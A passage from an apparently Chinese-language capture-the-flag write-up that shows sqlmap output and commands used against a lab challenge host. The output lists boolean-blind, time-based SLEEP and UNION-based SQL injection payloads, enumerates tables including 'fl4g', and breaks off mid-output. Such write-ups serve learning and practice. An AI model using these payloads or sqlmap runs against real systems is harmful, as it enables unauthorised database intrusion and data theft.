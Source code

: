 ```bash
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5975=5975 AND 'OwTY'='OwTY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9341 FROM (SELECT(SLEEP(5)))ejmq) AND 'mlWM'='mlWM

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-5185' UNION ALL SELECT NULL,NULL,CONCAT(0x71766b7171,0x514f4844786a687267776b504557574e487759506c79594248626342486779595a766c64674a7863,0x71717a7071)-- -
---
[09:22:07] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:22:07] [INFO] fetching tables for database: 'note'
[09:22:08] [INFO] resumed: 'fl4g'
[09:22:08] [INFO] resumed: 'notes'
Database: note                                                                                           
[2 tables]
+-------+
| fl4g  |
| notes |
+-------+

[09:22:08] [INFO] fetched data logged to text files under '/home/tyd/.local/share/sqlmap/output/1254-b717b966-a0b5-43fe-b410-f15797bb4381.do-not-trust.hacking.run'                                                 

[*] ending @ 09:22:08 /2022-08-17/
```

知道有个叫`fl4g`的表后，使用`-D note -T fl4g --columns`查看该表的字段信息：

```bash
┌──(tyd㉿kali-linux)-[~]
└─$ sqlmap -u "https://1254-b717b966-a0b5-43fe-b410-f15797bb4381.do-not-trust.hacking.run/index.php?id=1" -D note -T fl4g --columns
        ___
       __H__                                                                                              
 ___ ___[,]_____ ___ ___  {1.6.7#stable}                                                                  
|_ -| . [)]     | .'| . |                                                                                 
|___|_  [.]_|_|_|__,|  _|                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:23:58 /2022-08-17/

[09:23:58] [INFO] resuming back-end DBMS 'mysql' 
[09:23:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
```